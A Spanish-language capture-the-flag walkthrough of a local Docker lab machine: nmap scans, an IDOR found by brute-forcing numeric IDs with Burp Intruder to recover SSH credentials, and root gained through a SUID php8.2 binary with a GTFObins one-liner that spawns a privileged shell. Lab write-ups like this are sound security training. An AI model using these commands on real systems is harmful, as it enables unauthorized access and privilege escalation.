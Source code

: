 ## **1. Información Inicial**

Desplegamos la maquina con docker

```bash 
Máquina desplegada, su dirección IP es --> 172.17.0.2
```

---
## **2. Reconocimiento (Recon)**

### 2.1 Escaneo de Puertos

- [x] **Nmap inicial**: 
```bash
sudo nmap -p- --open -T5 -sS --min-rate 5000 -vvv -n -Pn 172.17.0.2 -oG allPorts 
``` 

Allports
```bash
PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack ttl 64
80/tcp open  http    syn-ack ttl 64
```

 **Puertos Abiertos**:
 **[Puerto 22]**: 
    
- [x] **Nmap serveis/versions**:
```bash
sudo nmap -sCV -p22,80 172.17.0.2 -oN targeted

```


 **Puertos Abiertos**:
 **[Puerto 22]**  OpenSSH 9.2p1 Debian 2+deb12u4 (protocol 2.0)
 **[Puerto 80]** 80/tcp open  http    Apache httpd 2.4.62 ((Debian))


---
## **2 Enumeración** (Web)

![Pasted image 20250211221856.png](<imagenes/Pasted image 20250211221856.png>)
Analizamos con Burpsuite

![Pasted image 20250211221927.png](<imagenes/Pasted image 20250211221927.png>)
 Vemos que para cada petición , genera un ID
 Vamos a tratar de encontrar ID's generados y ver si contienen algo

Mandamos la petición al Intruder
Creamos un ataque tipo "Sniper" de tipo "Numerico"
Configuramos del 1 al 1000

![Pasted image 20250211222050.png](<imagenes/Pasted image 20250211222050.png>)

En los resultados, ya vemos que por tamaño de respuesta, el ID 21 muestra algo distinto: (Tamaño 16679)
![Pasted image 20250211222217.png](<imagenes/Pasted image 20250211222217.png>)

Comprovamos el ID:
![Pasted image 20250211222251.png](<imagenes/Pasted image 20250211222251.png>)
~~![Pasted image 20250211221729.png](<imagenes/Pasted image 20250211221729.png>)~~

Encontramos login y password



---

## **4. Explotación (Exploit)**

Probamos a ingresar por SSH con ese usuario y contraseña, dado que tiene el puerot 22 abierto

![Pasted image 20250211222541.png](<imagenes/Pasted image 20250211222541.png>)

Accedemos a la maquina como Pepe.

---

## **5. Escalada de privilegios

Ahora, una vez dentro como Pepe, vamos probar a escalar nuestros privilegios

Buscamos permisos SUID

```bash
find / -perm -u=s -type f 2>/dev/null

/usr/bin/chfn
/usr/bin/gpasswd
/usr/bin/mount
/usr/bin/passwd
/usr/bin/umount
/usr/bin/chsh
/usr/bin/su
/usr/bin/newgrp
/usr/bin/php8.2
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/openssh/ssh-keysign
```

Encontramos `/usr/bin/php8.2
Buscamos en GTFObins
```bash 
./php -r "pcntl_exec('/bin/sh', ['-p']);"
```

Explotamos 
```bash
pepe@278b98666e01:/usr/bin$ ./php8.2 -r "pcntl_exec('/bin/sh', ['-p']);"
# whoami
root
```


---

## **6. Lecciones Aprendidas**
-
- IDOR en documentos PDF
---

## **7. Recursos**
- **Referencias**:
-  GTFObins  

- **Herramientas Utilizadas**:
  - **Nmap**
  - **Burpsuite**

---
